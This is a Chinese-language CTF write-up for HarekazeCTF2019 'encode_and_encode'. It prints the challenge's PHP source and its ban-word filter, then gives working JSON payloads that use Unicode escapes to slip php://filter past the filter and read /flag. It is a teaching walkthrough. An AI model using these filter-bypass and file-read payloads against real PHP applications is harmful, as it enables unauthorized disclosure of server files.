 # [HarekazeCTF2019]encode_and_encode

![image-20210602180406677]([HarekazeCTF2019]encode_and_encode/image-20210602180406677.png)

## 知识点

- php伪协议
- unicode 编码 绕过 JSON过滤

json格式传输的数据会被转义的几种情况，例如\”会被转义成”,\会被转义成\，\n会被转义成换行，\u（四位十六进制字符）会被转义成unicode解码后对应的字符。

## 解题

```php
 <?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]); 
```

- `file_get_contents('php://input')`获取 post 的数据，`json_decode($body, true)` 用 json 格式解码 post 的数据，然后 `is_valid($body)` 对 post 数据检验。
- `is_valid($body)` 对 post 数据检验，导致无法传输 `$banword` 中的关键词，也就无法传输 `flag`，这里在 json 中，可以使用 Unicode 编码绕过，`flag` 就等于 `\u0066\u006c\u0061\u0067`
- 这里传入 `/\u0066\u006c\u0061\u0067` 后，由于 `flag` 文件中也包含 flag 关键字，所以返回 `not found` ，这也无法使用 `file://`
- `file_get_contents` 是可以触发 `php://filter` 的，所以考虑使用伪协议读取，对 `php` 的过滤使用 `Unicode` 绕过即可

payload：

```json
{"page":"php://filter/convert.base64-encode/resource=/flag"}
```

Unicode编码：

```json
{"page":"\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067"}
```

![image-20210602180322251]([HarekazeCTF2019]encode_and_encode/image-20210602180322251.png)

base64解码，获得flag